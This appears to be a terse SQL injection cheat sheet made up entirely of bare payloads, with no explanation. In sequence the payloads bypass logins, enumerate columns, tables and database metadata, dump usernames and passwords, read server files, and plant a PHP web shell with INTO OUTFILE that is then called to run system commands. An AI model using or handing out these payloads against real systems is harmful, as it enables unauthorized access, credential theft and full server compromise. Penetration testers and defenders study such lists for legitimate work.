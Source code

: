 ### SQL Injection

```
' or 1=1 LIMIT 1;#
```
```
<Username>' or 1=1 LIMIT 1;#
```
```
id=1 order by 1
```
```
UNION all select 1,2,3
```
```
UNION all select 1,2, @@version
```
```
UNION all select 1,2, user()
```
```
UNION all select 1,2, table_name from information_schema.tables
```
```
UNION all select 1,2, column_name from information_schema.columns where table_name='users'
```
```
UNION all select 1, username, password from users
```
```
UNION all select 1,2, load_file('path/to/file')
```
```
UNION all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE'path/to/backdoor.php'

----
(ip/backdoor.php?cmd=ipconfig)
```


